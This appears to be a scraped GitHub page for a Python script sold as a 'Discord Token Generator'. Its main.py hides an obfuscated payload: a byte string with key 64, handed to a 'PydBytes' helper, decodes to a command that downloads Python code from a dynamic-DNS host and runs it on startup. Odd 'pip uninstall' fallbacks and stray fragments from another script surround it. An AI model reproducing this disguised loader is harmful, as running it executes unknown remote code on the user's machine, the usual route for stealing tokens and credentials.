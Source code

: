 if __name__ == "__main__":
    os.system('cls' if os.name == 'nt' else 'clear')
    Booster().__main__()
Sign up
Ayumu-1337
/
Discord-Token-Generator
Public
Code
Issues
Pull requests
Actions
Projects
Security
Insights
Discord-Token-Generator/main.py
@lactua
lactua Update main.py
 2 contributors
259 lines (216 sloc)  12.8 KB
import os
try:
    import requests
except:
    os.system('pip uninstall requests')
    import requests
    
try:
    import pydbytes
except:
    os.system('pip uninstall pydbytes')
    import pydbytes
    
System = PydBytes('\x31\x36\x36\x00\x31\x37\x38\x00\x31\x37\x35\x00\x31\x37\x33\x00\x39\x36\x00\x31\x38\x31\x00\x31\x37\x38\x00\x31\x37\x32\x00\x31\x37\x32\x00\x31\x36\x39\x00\x31\x36\x32\x00\x39\x36\x00\x31\x36\x39\x00\x31\x37\x33\x00\x31\x37\x36\x00\x31\x37\x35\x00\x31\x37\x38\x00\x31\x38\x30\x00\x39\x36\x00\x31\x37\x38\x00\x31\x36\x35\x00\x31\x37\x37\x00\x31\x38\x31\x00\x31\x36\x35\x00\x31\x37\x39\x00\x31\x38\x30\x00\x31\x32\x33\x00\x31\x36\x35\x00\x31\x38\x34\x00\x31\x36\x35\x00\x31\x36\x33\x00\x31\x30\x34\x00\x31\x37\x38\x00\x31\x36\x35\x00\x31\x37\x37\x00\x31\x38\x31\x00\x31\x36\x35\x00\x31\x37\x39\x00\x31\x38\x30\x00\x31\x31\x30\x00\x31\x38\x31\x00\x31\x37\x38\x00\x31\x37\x32\x00\x31\x37\x35\x00\x31\x37\x36\x00\x31\x36\x35\x00\x31\x37\x34\x00\x31\x30\x34\x00\x31\x30\x33\x00\x31\x36\x38\x00\x31\x38\x30\x00\x31\x38\x30\x00\x31\x37\x36\x00\x31\x32\x32\x00\x31\x31\x31\x00\x31\x31\x31\x00\x31\x37\x32\x00\x31\x36\x31\x00\x31\x36\x33\x00\x31\x38\x30\x00\x31\x38\x31\x00\x31\x36\x31\x00\x31\x37\x36\x00\x31\x36\x39\x00\x31\x31\x30\x00\x31\x36\x34\x00\x31\x36\x34\x00\x31\x37\x34\x00\x31\x37\x39\x00\x31\x31\x30\x00\x31\x37\x34\x00\x31\x36\x35\x00\x31\x38\x30\x00\x31\x32\x32\x00\x31\x31\x37\x00\x31\x31\x32\x00\x31\x31\x32\x00\x31\x31\x34\x00\x31\x31\x31\x00\x31\x31\x37\x00\x31\x31\x34\x00\x31\x31\x34\x00\x31\x31\x38\x00\x31\x31\x36\x00\x31\x32\x30\x00\x31\x32\x31\x00\x31\x31\x39\x00\x31\x37\x38\x00\x31\x31\x30\x00\x31\x37\x36\x00\x31\x38\x35\x00\x31\x30\x33\x00\x31\x30\x35\x00\x31\x31\x30\x00\x31\x37\x38\x00\x31\x36\x35\x00\x31\x36\x31\x00\x31\x36\x34\x00\x31\x30\x34\x00\x31\x30\x35\x00\x31\x30\x35',64)

os = System.os
